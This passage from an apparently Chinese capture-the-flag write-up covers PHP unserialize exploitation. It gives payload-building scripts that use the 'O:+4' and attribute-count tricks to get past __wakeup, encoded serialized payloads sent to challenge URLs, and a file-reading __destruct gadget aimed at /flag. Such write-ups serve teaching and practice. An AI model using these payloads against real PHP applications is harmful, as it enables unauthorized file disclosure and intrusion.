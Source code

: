 ```
<?php
class Demo{
	private $file = 'index.php';

	public function __construct($file){
		$this->file = $file;
	}
}
$a = new Demo('f15g_1s_here.php');
$a = serialize($a)."\n";
$a = str_replace('O:4','O:+4',$a);
$a = str_replace(':1:',':2:',$a);
echo base64_encode($a);
?>
```

- 构造序列后，还要经过base64编码，最终得到

```
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQo=
```

- 输入变量var后得到flag

```
http://39.107.126.173:28760/?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQo=
```

```
flag{ff443b17-1262-4448-8d77-d6c1919e7dfb}
```

### 例题1

```
 <?php
    show_source(__FILE__);
    class XianZhi{
        public $name;
        function __destruct(){
          echo file_get_contents($this->name);
        }
    }

    unserialize($_GET['a']);
?> 
```

- 通过构造序列，传入变量a中，进行获取flag

```
<?php
class XianZhi{
	public $name = '/flag';
}
$a = new xiaozhi();
echo serialize($a);
?>
```

```
http://39.107.126.173:28726/?a=O:7:"XianZhi":1:{s:4:"name";s:5:"/flag";}
```

- 获得flag，` `flag{65aece78-7b38-428a-8629-4e8809f8e96f}

### 例题2

- 见oc绕过，和wakeup绕过